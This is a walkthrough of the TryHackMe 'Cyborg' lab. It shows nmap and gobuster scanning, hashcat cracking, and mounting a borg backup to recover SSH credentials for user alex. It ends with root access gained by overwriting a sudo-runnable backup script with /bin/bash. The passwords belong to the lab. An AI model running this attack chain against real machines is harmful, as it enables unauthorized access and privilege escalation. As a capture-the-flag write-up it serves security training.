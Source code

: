 # Cyborg

**Room Link:** [https://tryhackme.com/room/cyborgt8](https://tryhackme.com/room/cyborgt8)

## Scanning

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>







### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>



### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (95).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

## Hash

**Link:** [https://hashcat.net/wiki/doku.php?id=example\_hashes](https://hashcat.net/wiki/doku.php?id=example\_hashes)

<figure><img src="../../.gitbook/assets/image (119).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
hashcat -m 1600 password /usr/share/wordlists/rockyou.txt
hashcat -m 1600 password --show
```

<figure><img src="../../.gitbook/assets/image (138).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
sudo apt install borgbackup -y
mkdir backup
borg mount home/field/dev/final_archive backup
Password: squidward
```

Within the backup I can see credentials for alex

<figure><img src="../../.gitbook/assets/image (73).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh alex@$VICTIM
Password: S3cretP@s3
```

<figure><img src="../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

## **Privilege Escalation**

**Victim**

```
chmod 777 /etc/mp3backups/backup.sh
echo "/bin/bash" > /etc/mp3backups/backup.sh
sudo /etc/mp3backups/backup.sh 
```

<figure><img src="../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>











